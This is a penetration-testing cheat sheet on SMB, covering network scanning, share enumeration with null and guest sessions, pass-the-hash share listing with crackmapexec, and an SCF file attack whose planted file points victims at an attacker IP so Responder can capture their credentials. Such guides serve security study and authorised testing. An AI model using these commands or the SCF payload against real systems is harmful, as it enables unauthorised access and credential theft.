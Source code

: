 ```yaml
---
description: >-
  SMB stands for Server Message Block. It’s a protocol for sharing resources
  like files, printers, in general any resource which should be retreivable or
  made available by the server.
---
```


# PORT 139,445/tcp - SMB

## Introduction

It primarily runs on port 445 or port 139 depending on the server . It is actually natively available in windows, so windows users don’t need to configure anything extra as such besides basic setting up. In Linux however ,it is a little different. To make it work for Linux, you need to install a samba server because Linux natively does not use SMB protocol.

## Scanning the network

### Nmap

We can do a port scanner selecting the NetBIOS and SMB ports:

```
nmap -v -p 139,445 -oG smb.nmap <ip-addr>/<mask>
grep "Up" smb.nmap | cut -d " " -f 2
```

### Nbtscan

We can scan for NetBIOS Service around the network in order to collect additional NetBIOS information like server names:

```
sudo nbtscan -r <ip-addr>/<mask>
```

## Enumeration a target

### Nmap scripts

`Nmap` contains many useful NSE scripts that can be used to discover and enumerate SMB services. All these scripts are in the folder `/usr/share/nmap/scripts/`

```
ls -l /usr/share/nmap/scripts/smb*
```

You can launch the script with the `--script` parameter:

```
nmap -v -p 139,445 --script=<script> <ip-addr>
```

### Enum4linux

Enum4linux is an script that automatize some tasks:

```
enum4linux -a [-u <user> -p <pass>"] <ip-addr>
```

### Shared Folders

There are some available `nmap` scripts that could help us in that work:

```
nmap -p 139,445 -sV --script smb-\* <ip-addr>
```

`smbmap` will shows us available shares and permissions:

```
smbmap -H <ip-addr>
#Example Output
[+] Guest session       IP: ip-addr:445   Name: ip-addr
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (kenobi server (Samba, Ubuntu))
```

And we can connect to these shares with `smbclient`:

```
smbclient //<ip-addr>/<share>                # Guest Session
smbclient //<ip-addr>/<share> -U "" -N       # Null Session
smbclient //<ip-addr>/<share> -U <user>      # Authenticated Session

# Older versions
smbclient //<ip-addr>/<share> --option='client min protocol=NT1'
```

To download recursively all the share you can use `smbget`:

```
smbget -R smb://<ip-addr>/<share>
smbget -R smb://<ip-addr>/<share> -U <user>
```

Also you could enumerate shares with `crackmapexec`:

```
crackmapexec smb <ip-addr> -u '' -p '' --shares #Null user
crackmapexec smb <ip-addr> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <ip-addr> -u 'username' -H '<HASH>' --shares #Guest user
```

Finally you can mount the share on your kali.

```
sudo mount -t cifs -o vers=2.0,username=guest,password=guest //<ip-addr>/<share>
```

## Shell Command Files (SCF) attack

It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

```
[Shell]
Command=2
IconFile=\\<OUR.IP>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Adding the **@** symbol in front of the filename will place the file on the top of the share drive.

```
Filename: @attack.scf
```

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user, so we can capture it with Responder.

```
responder -I eth0
```

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

## References:

* [https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b](https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b)
* [https://book.hacktricks.xyz/pentesting/pentesting-smb#port-139](https://book.hacktricks.xyz/pentesting/pentesting-smb#port-139)
* [http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html](http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html)
